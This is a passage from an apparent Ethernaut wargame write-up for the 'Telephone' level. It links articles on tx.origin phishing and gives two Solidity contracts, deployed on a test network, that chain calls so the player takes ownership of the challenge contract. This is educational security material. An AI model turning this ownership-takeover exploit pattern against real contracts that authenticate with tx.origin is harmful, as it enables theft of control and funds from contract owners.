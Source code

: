 ### Further Reading

- Phishing with tx.origin - https://solidity-by-example.org/hacks/phishing-with-tx-origin/
- Security Alert (tx.origin) - https://blog.ethereum.org/2016/06/24/security-alert-smart-contract-wallets-created-in-frontier-are-vulnerable-to-phishing-attacks/

### Solution Source code

```
// SPDX-License-Identifier: MIT
// Deployed at: 0x3F1a746bd0c24d6DB7e0172e0Cfc465C7AC44375 Rinkeby Test Network

pragma solidity ^0.8.7;

interface ICallTwo {
    function call2() external;
}

contract CallOne {
    function call1() public {

        //Address of the second contract used in the attack (see below)
        ICallTwo(0xcfC7b041Ba0420d73c6B9C8Ac832fd2bc9175470).call2();
    }
}
```

Contract #2

```
// SPDX-License-Identifier: MIT
// Deployed at: 0xcfC7b041Ba0420d73c6B9C8Ac832fd2bc9175470 Rinkeby Test network

pragma solidity ^0.8.7;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract CallTwo {
    function call2() public {
        // Ethernaut Instance
        address victim = 0xe2EC929D9fA9AF49CD5862C1336c91533064Ce25;
        // Ethernaut Player Address
        address attacker = 0x922e34D7d34C70Df760DF873BC6F99a10dea516E;
        ITelephone(victim).changeOwner(attacker);
    }
}
```

## Token
